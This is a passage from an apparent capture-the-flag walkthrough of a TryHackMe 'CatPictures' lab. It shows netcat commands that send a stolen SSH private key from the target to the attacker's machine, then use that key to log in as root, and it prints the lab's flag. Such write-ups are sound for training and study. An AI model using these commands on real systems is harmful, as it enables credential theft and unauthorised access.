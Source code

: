 The `rebecca` is verified that it is the correct password. On target machine, execute the binary `runme` → Then, verify that the `gibmethesshkey` is now appears in `/tmp/` and observe that the `id_rsa` is generated inside the user’s directory:

```tsx
# ls -la
total 32
drwxr-xr-x 2 0 0  4096 Aug  7 02:29 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rw-r--r-- 1 0 0  1675 Aug  7 02:29 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
```

Choose another port to transfer the **************ssh key************** `id_rsa`:

```bash
#Local machine:
nc -lvnp 4445 > id_rsa

#Target machine:
nc <LOCAL_IP> 4445 < /home/catlover/id_rsa
```

`chmod` the `id_rsa` and use it to `ssh` to the target:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/CatPictures]
└─$ chmod 600 id_rsa

┌──(kali㉿kali)-[~/TryHackMe/CatPictures]
└─$ ls -l           
total 28
-rw------- 1 kali kali  1675 Aug  6 22:31 id_rsa
-rw-r--r-- 1 kali kali   162 Apr  2  2021 note.txt
-rwxr-xr-x 1 kali kali 18856 Aug  6 22:24 runme
```

```tsx
┌──(kali㉿kali)-[~/TryHackMe/CatPictures]
└─$ ssh catlover@10.10.166.230 -i id_rsa
The authenticity of host '10.10.166.230 (10.10.166.230)' can't be established.
ED25519 key fingerprint is SHA256:1eaD00/uot2wrnOhWADr5ZbjIDs9twYBymqkwtQKXk0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

[REDACTED...]

Last login: Fri Jun  4 14:40:35 2021
root@7546fa2336d6:/# id
uid=0(root) gid=0(root) groups=0(root)
```

Locate the `flag.txt` and get the flag:

```tsx
root@7546fa2336d6:/# ls -l /root
total 4
-rw-r--r-- 1 root root 41 Mar 25  2021 flag.txt
root@7546fa2336d6:/# cat /root/flag.txt
7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9
```
